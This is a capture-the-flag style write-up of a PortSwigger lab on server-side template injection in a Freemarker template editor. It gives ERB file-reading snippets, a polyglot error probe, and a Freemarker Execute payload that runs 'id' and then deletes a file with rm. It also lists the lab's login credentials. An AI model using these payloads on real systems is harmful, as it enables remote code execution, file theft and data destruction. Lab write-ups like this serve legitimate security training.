 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5c807b57-ad84-43a9-a91e-fdd8ada03b24)

## Overview :

In addition to providing the fundamentals of how to create and use templates, the documentation may also provide some sort of "Security" section. 

This can be an invaluable resource, even acting as a kind of cheat sheet for which behaviors you should look for during auditing, as well as how to exploit them. 

 For example, in ERB, the documentation reveals that you can list all directories and then read arbitrary files as follows:

 ```bash
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```
## Solution :

Login to the website using the credentials - `content-manager:C0nt3ntM4n4g3r`.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9bbe4ff7-b30b-4b0d-8d23-f97f15f9bb84)

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/ea47aaa0-b79a-4350-b57d-c0dcd509b58c)

So here we have an option to edit out template. When we enter `${{<%[%'"}}%\` & save the template , it doesn't return anything which means it caused an error at the backend. This confirms the SSTI vulnerability.

### Identifying the template engine -

When we enter `${9/0}` (divide by zero expression), we get an error in the response indicating that the template engine used is **Freemarker.**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4c2cef4f-f565-4fc0-9f8f-8c4d3c5b57dc)


### Executing arbitrary code -

We can run code on Freemarker using this -

```java
${"freemarker.template.utility.Execute"?new()("id")}
```
> **Reference**
>   - https://portswigger.net/research/server-side-template-injection
>   - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#freemarker---code-execution

On previewing the template after entering the following payload gives us the **id** as **carlos**.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/87e8ce47-1682-4ffc-988a-1e7ce0f4bd33)

To delete this just replace the id command to **rm /home/carlos/morale.txt**

```java
${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}
```

And we have successfully solved the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/26bb6dc6-ed7c-43fe-9fe3-1c927ee7afe5)
